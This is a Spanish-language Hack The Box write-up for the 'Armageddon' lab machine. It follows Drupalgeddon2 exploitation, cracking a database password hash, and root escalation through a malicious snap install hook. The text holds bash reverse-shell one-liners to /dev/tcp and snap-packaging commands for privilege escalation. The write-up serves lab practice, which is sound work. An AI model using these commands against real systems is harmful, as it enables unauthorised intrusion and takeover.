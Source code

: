 ```yaml
---
title: "Armageddon - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://github.com/Wiinsad/winsad/blob/master/assets/images/machines/HTB/armageddon/data/armageddon.png?raw=true"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Drupalgeddon
  - John
  - Snap
  - Linux
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/data/armageddonHTB.png">
</p>

La máquina **Armageddon** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **fácil** una puntuación de 3.7, **9388 USER OWNS** y **7996 SYSTEM OWNS** con la ip **10.10.10.233** y un sistema operativo **Linux**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.233]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con un estatus abierto.
  - **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/ScanPort.png">
  </p>

  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,80**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/Ports.png">
  </p>

  Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/PortServ.png">
  </p>

  Lo que podemos ver de esté escaneo de versiones y servicios es que esta maquina cuenta en el puerto **22** un servicio **ssh** y en el puerto **80** cuenta con un servicio web **http** el cual es gestionado por **apache**, también podemos ver que nmap nos muestra varias rutas que son potencialmente interesantes para examinar pero primero vamos a ver la web entrando por una via normal.

  Al entrar por via web podemos ver que la pagina nos muestra un login, si hacemos pruebas como ingresar credenciales típicas no tenemos ningún resultado al igual si agregamos una comilla para ver si podemos encontrar algún error de syntax de sql.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/web.png">
  </p>

  Nmap nos indico que existe un recurso **Robots.txt** disponibles, si entramos a este recurso podemos ver una gran cantidad de rutas a las cuales podemos acceder, habiendo una muy interesante como **/CHANGELOG.txt** en la cual si entramos podemos ver que el servicio web tiene un gestor de contenido **Drupal 7** específicamente una version **7.56**, esta version es vulnerable a **Drupalgeddon 2.0.** ([más información](https://blog.sarenet.es/drupalgeddon/)).

  Hay una gran cantidad de exploits para explotar esta vulnerabilidad yo usare el exploit desarrollado por [pimps](https://github.com/pimps/CVE-2018-7600) pero puedes encontrar muchos mas buscando con el CVE: **CVE-2018-7600**.

## Gaining Access

  Ingresando los parámetros que marca la herramienta puedo ver que efectivamente el aplicativo es vulnerable a **Drupalgeddon 2.0.**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/scan/drup.png">
  </p>

  Con esto entendido me entablare una revershell para poder acceder a la maquina ingresando el siguiente one line y poniéndome en escucha con **netcat**:

  ```bash
  bash -i >& /dev/tcp/[Your IP]/[Port] 0>&1
  ```
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/shell.png">
  </p>

## Privilege escalation - brucetherealadmin

  Ya dentro de la maquina y haciendo enumeración podemos llegar a un archivo en la ruta **/var/www/html/sites/default/settings.php** el cual tiene unas credenciales de la base de datos de mysql.

  Ya que no estamos en una **tty** podemos usar la herramienta de **mysql** con el parámetro **-e** el cual es para hacer consultas sin entrar en modo interactivo en mysql.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/cred.png">
  </p>

  Enumerando la base de datos drupal podemos ver que hay una tabla llamada **"users"** la cual contiene un hash del usuario **brucetherealadmin** el cual es un usuario a nivel de sistema.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/cred2.png">
  </p>

  Con este hash y usando la herramienta de john se puede aplicar fuerza bruta para descubrir el hash, haciendo esto podemos ver que el hash pertenece a la contraseña booboo:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/hash.png">
  </p>


  Teniendo esto y recordando que el puerto **22** esta abierto podemos intentar usar estas credenciales para acceder por ssh.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/ssh.png">
  </p>


## Privilege escalation - Root

  Ya que estamos dentro de la maquina por ssh y tenemos unas credenciales validas podemos enumerar el sistema con mas facilidad para ver hacer una escalada de privilegios hacia el usuario **root**.


  Enumerando el sistema y aplicando el comando **sudo -l** para listar los permisos a nivel sudo que tiene el usuario **brucetherealadmin** podemos ver que cuenta con la capacidad de ejecutar snap como root sin proporcionar contraseña.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/sudo.png">
  </p>

  Con este permiso si buscamos en la herramienta [**gtfobins**](https://gtfobins.github.io/gtfobins/snap/#sudo) este recurso podemos ver que hay una forma de escalar privilegios

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/gto.png">
  </p>


  Para probar esto en mi equipo me creo un el binario con las instrucciones que da **gtobins** el cual ejecutara un "whoami" y si la respuesta es **root** significa que funciona y tenemos una via segura para escalar privilegios.

  Para esto me cree el binario y levante un servicio **http** con python para poder pasar el binario a la maquina victima.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/1.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/2.png">
  </p>

  Como vemos comprobando com **md5sum** los archivos tienen el mismo hash lo que significa que se transfirió con éxito y sin ninguna alteración.

  Al ejecutar el binario con el install podemos ver que efectivamente tenemos ejecución de comando por parte de **root**

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/3.png">
  </p>

  Excelente ahora que tenemos ejecución de comando como **root** vamos a subir un nuevo binario para hacer una jugada nueva, muchos usan el recurso de **"[dirty_sock](https://www.exploit-db.com/exploits/46361)"** el cual consiste en subir el binario **.snap** y te crea un usuario a nivel de sistema que pertenece al grupo **root**.

  Yo hare diferente la escalada, en el directorio personal de **brucetherealadmin** me creare una carpeta nueva **/home/brucetherealadmin/bin** en este directorio creare un binario llamado **winsad** ( ```touch winsad``` ) el cual tendrá el siguiente contenido:

  ```bash
  #!/bin/bash

  bash -i >& /dev/tcp/10.10.15.125/444 0>&1
  ```

  Le asigno permisos de ejecución con ```chmod +x winsad```, ahora con los pasos que se ven en **gtobins** compilare el binario con los siguientes argumentos en mi equipo:

  ```bash
COMMAND=/home/brucetherealadmin/bin/winsad
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
  ```

  Lo que estoy haciendo aquí es crear un binario **.snap** el cual apunte a mi binario y como es un contenido en bash lo va a interpretar, esto lo hago así ya que haciendo pruebas es la manera mas eficiente para evitar errores a la hora de crear el binario, así solo apunto a uno ya existente y que interprete el contenido del mismo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/pre|root.png">
  </p>

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/armageddon/intrusion/root.png">
  </p>

  Como vemos nos interpreta el contenido del binario winsad y nos da la shell como el usuario **root**

